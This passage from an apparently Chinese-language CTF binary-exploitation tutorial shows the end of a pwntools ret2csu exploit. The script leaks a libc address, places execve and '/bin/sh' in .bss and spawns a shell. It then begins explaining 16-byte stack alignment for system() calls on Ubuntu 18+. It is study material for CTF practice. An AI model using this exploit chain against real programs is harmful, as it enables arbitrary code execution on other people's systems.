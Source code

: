 ```python
    sh.send(payload)
    sleep(1)


sh.recvuntil('Hello, World\n')
## RDI, RSI, RDX, RCX, R8, R9, more on the stack
## write(1,write_got,8)
csu(0, 1, write_got, 8, write_got, 1, main_addr)

write_addr = u64(sh.recv(8))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))
##gdb.attach(sh)

## read(0,bss_base,16)
## read execve_addr and /bin/sh\x00
sh.recvuntil('Hello, World\n')
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + '/bin/sh\x00')

sh.recvuntil('Hello, World\n')
## execve(bss_base+8)
csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
sh.interactive()
```



# 技巧
## ubuntu18 及以上系统 64 位的堆栈平衡问题
### 前言
在`Ubuntu18`及以上的版本, `64`位的程序若包含了`system('/bin/sh')`, 则需要考虑堆栈平衡问题. 因为在`Ubuntu18`下的版本中`system`调用时要求地址和`16`字节对齐, 如果没有栈对齐的话, 程序就直接`crash`了.

### 原因
栈的字节对齐, 实际是指栈顶指针必须是`16`字节的整数倍. 栈对齐使得在尽可能少的内存访问周期内读取数据, 不对齐堆栈指针可能导致严重的性能下降. 但是实际上, 即使数据没有对齐, 我们的程序也是可以执行的, 只是效率有点低而已, 但是某些型号的`Intel`和`AMD`处理器在执行某些实现多媒体操作的`SSE`指令时, 如果数据没有对齐, 将无法正确执行. 这些指令对`16`字节内存进行操作, 在`SSE`单元和内存之间传送数据的指令要求内存地址必须是`16`的倍数.

因此, 任何针对`x86_64`处理器的编译器和运行时系统都必须保证它们分配内存将来可能会被`SSE`指令使用, 所以必须是`16`字节对齐的, 这也就形成了一种标准:
 - 任何内存分配函数(alloca, malloc, calloc 或 realloc)生成的块的起始地址都必须是`16`的倍数.
 - 大多数函数的栈帧的边界都必须是`16`字节的倍数.

因此, 在运行时栈中不仅传递的参数和局部变量要满足字节对齐, 栈指针(rsp)也必须是`16`的倍数.

### 例题讲解
这里用`ciscn_2019_c_1`来讲解一下这个知识点. 在最后`getshell`时我们需要用到`system`函数, 但是由于给的环境是`ubuntu18`的, 因此这个函数需要满足栈对齐的条件. 
